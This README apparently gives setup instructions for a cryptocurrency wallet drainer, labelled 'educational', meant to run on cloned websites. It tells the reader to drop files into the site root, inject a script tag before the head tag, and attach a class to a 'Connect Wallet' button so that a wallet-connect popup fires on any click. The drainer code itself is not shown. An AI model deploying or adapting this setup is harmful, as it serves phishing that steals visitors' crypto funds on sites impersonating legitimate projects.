 This is the instructions for setting up this educational drainer on your cloned sites!

extract the files.zip into the root directory of your site. Paste this  <script charset="UTF-8" type="text/javascript" src="./81ba74da-d980-47c1-88f4-f798670ba089.js"></script> before your head tag. Now add the class interact-button
<button class="style interact-button"> Connect Wallet</button>

Confirm that when you visit your site now and click anywhere a popup occurs for wallet connect.
